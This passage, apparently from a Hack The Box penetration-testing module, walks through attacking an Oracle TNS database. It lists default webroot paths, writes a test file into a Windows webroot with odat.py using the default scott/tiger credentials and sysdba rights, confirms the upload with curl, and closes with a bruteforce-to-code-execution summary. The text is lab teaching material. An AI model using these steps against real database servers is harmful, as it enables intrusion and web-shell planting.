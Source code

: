 ```shell-session
NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.

#### Oracle RDBMS - File Upload

Oracle TNS

```shell-session
0xmid00@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
0xmid00@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.

Oracle TNS

```shell-session
0xmid00@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```

## Summary

1. **Version Enumeration**: Identify version information to search for known vulnerabilities.
2. **TNS Listener Bruteforce**: Sometimes necessary to establish communication.
3. **SID Name Enumeration/Bruteforce**: Discover database names (SID).
4. **Credential Bruteforce**: Attempt to access discovered SID.
5. **Code Execution**: Attempt to run code on the system.
